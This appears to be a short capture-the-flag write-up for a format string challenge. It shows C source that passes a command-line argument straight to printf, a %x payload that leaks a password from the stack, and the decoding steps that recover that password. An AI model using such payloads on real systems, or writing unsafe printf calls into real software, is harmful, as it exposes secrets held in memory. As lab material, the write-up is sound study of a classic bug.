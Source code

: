 Source <br>

```c
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```
<br>
In this challenge, we can exploit the basic format string vul in `printf(arg[1])` that allows us to leak the password read in `buffer[32]`. Hence, we can use `%x` continuously to leak 4 characters on the stack.


<br>

```c
app-systeme-ch5@challenge02:~$ ./ch5 %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
20804b160804853d9bffffd5ab7e1b679bffffc34b7fc3000b7fc3000804b16039617044282936646d617045bf000a64804861b
```

Using CyberChief to swap endian to: 
```c
16 4b 80 20 3d 85 04 08 d5 ff ff 9b 67 1b 7e ab c3 ff ff 9b 00 c3 7f 4b 00 c3 7f 0b 60 b1 04 08 44 70 61 39 64 36 29 28 45 70 61 6d 64 0a 00 bf 0b 61 48 80
```
Using Hex to text Decoder: 
```c
K =Õÿÿg~«ÃÿÿÃKÃ`±Dpa9d6)(Epamd
¿aH
```
Password is Dpa9d6)(Epamd
